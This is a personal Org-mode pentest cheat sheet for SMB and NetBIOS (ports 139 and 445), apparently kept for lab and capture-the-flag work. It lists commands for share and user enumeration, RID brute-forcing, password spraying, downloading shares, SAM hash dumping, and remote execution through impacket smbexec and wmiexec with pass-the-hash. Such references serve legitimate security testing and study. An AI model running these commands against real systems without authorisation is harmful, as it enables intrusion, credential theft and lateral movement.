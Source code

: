 :PROPERTIES:
:ID:       ee7b0e9a-cb6d-434f-bf7d-87bbd00b18b9
:END:
#+title: Pentest - SMB p 139,445
#+filetags: :crackmapexec:smbmap:smb:pentest:
#+hugo_base_dir:../


[[https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb][HackTricks]]


* Port 139 [[id:2e735517-eea9-4a23-a83a-c99740b91756][NetBIOS]]
_NetBIOS_ is ~Network Basic Input Output System~, which is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network.
* Port 445 [[id:c761907f-f7ef-4aa7-adcf-e3d178feec86][SMB - Server Message Block]]
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’.
** SMB
Server Message Block (SMB) is a client-server protocol that regulates access to files and entire directories and other network resources such as printers, routers, or interfaces released for the network.
* Server Enumeration
Search for hosts:
#+begin_src shell -n
nbtscan -r 192.168.1.1/24
#+end_src
** SMB information
#+begin_src shell -n
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>

# connect to rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
#+end_src

# smbclient
#+begin_src sh
smbclient //10.10.10.10/Public -U 'anonymous' -N
smbclient -L //dc01.coder.htb -U Guest
#+end_src

# netexec
#+begin_src shell -n
nxc smb $IP -u 'user.name' -p 'password'
#+end_src

See also impacket: samrdump, rpcdump
** Users, Groups
#+begin_src shell -n
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 -u usernames.txt -p ‘’ --continue-on-success


ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

#+end_src
** Anonymous logon
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' --shares
#+end_src
** List files
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus
#+end_src
** Download files
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=TRUE EXCLUDE_DIR=IPC$
#+end_src
** IPC$ Share
With an anonymous null session you can access the IPC$ share and interact with services exposed via named pipes. The enum4linux utility within Kali Linux is particularly useful; with it, you can obtain the following:
- Operating system information
- Details of the parent domain
- A list of local users and groups
- Details of available SMB shares
- The effective system security policy

RID cycling with ~crackmapexec~
#+begin_src shell -n
crackmapexec smb <ip> -u 'a' -p '' -d <domain> --rid-brute |grep User
#+end_src
then, eg, check for UF_DONT_REQUIRE_PREAUTH and [[id:f6604f23-26b0-4da6-9c3d-f240b929526a][AS-REP Roasting]]. Then attempt ~crackmapexec~ with smb and username password combinations.  Passwords from list (eg rockyou), customized list, usernames as passwords (backwards and forwards, case change, etc).
** SMB Command Execution
#+begin_src shell -n
impacket-smbexec administrator:'<password>'@machine.htb
#+end_src
*** Dump sam hashes
#+begin_src shell -n
crackmapexec smb <IP> -u <username> -p "PASSWORD" --sam
#+end_src
*** wmiexec
#+begin_src shell -n
impacket-wmiexec <user>@<ip> -hashes "<user hash>"
#+end_src
